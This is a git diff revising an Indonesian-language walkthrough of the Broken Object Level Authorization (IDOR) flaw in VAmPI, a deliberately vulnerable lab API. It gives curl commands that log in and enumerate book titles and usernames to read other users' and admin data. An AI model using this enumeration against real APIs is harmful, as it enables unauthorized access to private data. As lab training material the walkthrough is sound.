

Revisi writeup

diff --git a/Broken Object Level Authorization.md b/Broken Object Level Authorization.md
@@ -1,59 +1,62 @@
 # Broken Object Level Authorization
 Penyerang dapat mengeksploitasi endpoint API yang rentan terhadap Broken Object Level Authorization (BOLA) / IDOR (Insecure Direct Object Reference) dengan memanipulasi ID objek yang dikirimkan dalam request. ID Objek dapat berupa apa saja, mulai dari bilangan bulat berurutan, UUID, atau string. Akses tidak sah terhadap objek pengguna lain dapat mengakibatkan pengungkapan data kepada pihak yang tidak berwenang, kehilangan data, atau manipulasi data. Celah keamanan ini ditemukan pada endpoint `/books/v1/{book_title}` dan `/users/v1/{username}`
 
-- Login terlebih dahulu untuk mengakses endpoint `/books/v1/{book_title}`
+- Login terlebih dahulu untuk mengakses endpoint `/books/v1/{book_title}` dengan akun yang sudah dibuat di proses instalasi kemudian copy nilai `auth_token`
 ```sh
-curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/users/v1/login -d '{"username":"userapi","password":"12345"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%201.JPG)
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%202.JPG)
 
+- Akses endpoint `/books/v1/{book_title}` dan isi parameter `{book_title}` dengan format `bookTitle<nomor>`. Nomor bisa diganti dengan angka bulat (integer) berapapun hingga menemukan data, misalnya angka 1-100
 ```sh
-curl http://IP_Server:5000/books/v1/bookTitle36 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/books/v1/bookTitle91 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%203.JPG)
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%204.JPG)
 
+- Akses endpoint dengan nilai paramter lainnya. Jika `auth_token` sudah expired silahkan lakukan login ulang copy nilai `auth_token` yang baru
 ```sh
-curl http://IP_Server:5000/books/v1/bookTitle37 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/books/v1/bookTitle92 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%205.JPG)
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%206.JPG)
 
+- Kita menemukan data buku milik admin dengan `bookTitle15`
 ```sh
-curl http://IP_Server:5000/users/v1/name1 --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/books/v1/bookTitle15 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%207.JPG)
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%208.JPG)
 
+- Pada endpoint `/books/v1/{book_title}` kita mengakses data milik pengguna lain dengan menebak urutan parameter **book_title** seperti `bookTitle91`, `bookTitle92` dan `bookTitle15`. Angka 15, 91, dan 92 adalah contoh angka bulat yang berurutan antara 1-100. Seharusnya data tersebut tidak dapat dibaca oleh user yang bersangkutan. Inilah yang disebut dengan celah keamanan Broken Object Level Authorization (BOLA). Jika kita mengakses endpoint `/books/v1/{book_title}` tanpa parameter, kita dapat memperoleh seluruh data buku
 ```sh
-curl http://IP_Server:5000/users/v1/name2 --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/users/v1 --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%209.JPG)
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2010.JPG)
 
+- Sekarang kita coba akses endpoint `/users/v1/{username}` dan isi parameter `{username}` dengan format `name<nomor>`. Nomor bisa diganti dengan angka bulat (integer) berapapun hingga menemukan data, misalnya angka 1-100
 ```sh
-curl http://IP_Server:5000/users/v1/admin --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/users/v1/name1 --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2011.JPG)
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2012.JPG)
 
-- Pada endpoint `/books/v1/{book_title}` kita mengakses data dengan menebak urutan parameter **book_title** seperti `bookTitle36` dan `bookTitle36`. Begitu juga dengan endpoint `/users/v1/{username}` kita juga bisa mengakses data user dengan menebak urutan **username** seperti `name1` dan `name2`. Selain itu kita juga bisa menemukan data dengan username `admin`
-- Jika kita menggunakan endpoint diatas tanpa parameter, kita dapat memperoleh seluruh data
 ```sh
-curl http://IP_Server:5000/books/v1 --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/users/v1/name2 --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2013.JPG)
@@ -61,9 +64,19 @@ curl http://IP_Server:5000/books/v1 --proxy http://127.0.0.1:8080
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2014.JPG)
 
 ```sh
-curl http://IP_Server:5000/users/v1 --proxy http://127.0.0.1:8080
+curl http://IP_Server:5000/users/v1/admin --proxy http://127.0.0.1:8080
 ```
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2015.JPG)
 
 ![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2016.JPG)
+
+- Pada endpoint `/users/v1/{username}` kita juga bisa mengakses data user dengan menebak urutan **username** seperti `name1` dan `name2`. Selain itu kita juga bisa menemukan data dengan username `admin`. Angka 1 dan 2 adalah contoh angka bulat yang berurutan antara 1-100. Sedangkan username `admin` adalah contoh username yang biasa digunakan untuk administrator. Seharusnya data tiap user hanya bisa diakses oleh user yang berwenang. Jika kita mengakses endpoint `/users/v1/{username}` tanpa parameter, kita dapat melihat seluruh data user
+```sh
+curl http://IP_Server:5000/users/v1 --proxy http://127.0.0.1:8080
+```
+
+![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2017.JPG)
+
+![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2018.JPG)
+
